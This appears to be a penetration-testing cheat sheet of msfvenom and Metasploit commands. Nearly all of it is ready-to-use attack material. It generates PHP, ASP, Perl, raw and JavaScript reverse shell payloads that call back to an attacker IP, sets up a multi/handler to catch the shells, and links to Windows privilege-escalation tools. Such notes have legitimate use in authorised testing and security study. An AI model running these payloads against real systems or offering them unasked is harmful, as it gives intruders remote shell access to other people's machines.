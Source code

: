 ## Other scripts

```text
https://github.com/GDSSecurity/Windows-Exploit-Suggester
https://github.com/Jean13/Penetration_Testing/blob/master/Privilege_Escalation/windows-privesc-check2.exe
```

### Generate php reverse shell:

```text
msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker_ip> -o meterpreter.php
msfvenom -p generic/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f php -o shell.php
```

### Others

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

### Generate shellcode to use within a perl exploit:

```text
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<attacker_ip> LPORT=443 -f perl -b \x00\x0A\x0D\xFF
```

### Raw paylaod:

```text
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f raw -o test.bin
```

### Js payload:

```text
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f js_le
```

### Handling reverse shell using meterpreter:

```text
use exploit/multi/handler
set lport 1234
set lhost <attacker_ip>
set payload windows/shell/reverse_tcp
run
```

### Other payloads:

```text
set PAYLOAD windows/meterpreter/reverse_tcp
set PAYLOAD generic/shell_reverse_tcp
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```
